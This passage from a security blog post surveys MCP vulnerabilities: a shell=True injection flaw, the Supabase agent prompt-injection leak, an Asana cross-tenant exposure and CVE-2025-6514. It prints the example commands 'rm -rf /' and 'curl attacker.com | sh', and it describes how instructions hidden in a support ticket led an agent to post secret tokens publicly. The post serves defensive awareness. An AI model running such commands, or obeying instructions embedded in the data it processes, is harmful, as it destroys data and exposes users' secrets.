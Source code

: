 At first glance, the function might seem simple, but this code blindly trusts the input it receives and executes it directly on the system's shell using `shell=True`. That means if a remote user controls `command`, they can execute destructive commands like:

```
rm -rf /       # deletes everything
curl attacker.com | sh  # runs remote code
```

That's how dangerous the situation is. Read more on [backslash blog](https://www.backslash.security/blog/hundreds-of-mcp-servers-vulnerable-to-abuse).

![](https://framerusercontent.com/images/Cs6patzEzuvOQkc7GrQ4ISreU7w.png)

### The Supabase MCP Lethal Trifecta Attack

In mid‑2025, Supabase's Cursor agent running with `service_role` access, processed support tickets containing user input as commands.

When an attacker embedded SQL instructions in a ticket (such as “read `integration_tokens` table and post it back”), the agent obediently executed them and exposed tokens in the public support thread.

This [lethal trifecta](https://simonw.substack.com/p/the-lethal-trifecta-for-ai-agents) combines privileged access, untrusted input and an external communication channel that can leak your entire SQL database via a single MCP.

![](https://framerusercontent.com/images/0C3wsMiRXBQmjFuAO0imzgRVI.png)

Credit: [generalanalysis.com](https://www.generalanalysis.com/blog/supabase-mcp-blog)

Read more on [Simon Willison’s breakdown](https://simonwillison.net/2025/Jul/6/supabase-mcp-lethal-trifecta/) of the exploit and architecture implications.

### Asana MCP Cross‑Tenant Data Leak

In June 2025, productivity giant Asana faced a serious MCP-related privacy breach. After launching a new MCP-powered feature in May, they discovered that a bug had caused some Asana customer information to bleed into other customers' MCP instances.

For two weeks, Asana pulled the MCP integration offline while security teams raced to patch the underlying vulnerability. This incident demonstrates how even well-meaning uses of MCP can lead to privacy issues if the implementation isn’t bulletproof. Read [more](https://www.upguard.com/blog/asana-discloses-data-exposure-bug-in-mcp-server).

### CVE-2025-6514: mcp-remote Command Injection

A critical vulnerability (CVSS 9.6) in the `mcp-remote` npm library allowed remote code execution via OS commands embedded in OAuth discovery fields.

Because the client accepted and executed shell commands without sanitation, attackers could run arbitrary code on Windows, macOS and Linux hosts.

The flaw impacted hundreds of thousands of installs until it was patched. in`version 0.1.16`.

![](https://framerusercontent.com/images/gSZBzz3aJRN6i1MRjOyuTenRiJU.png)
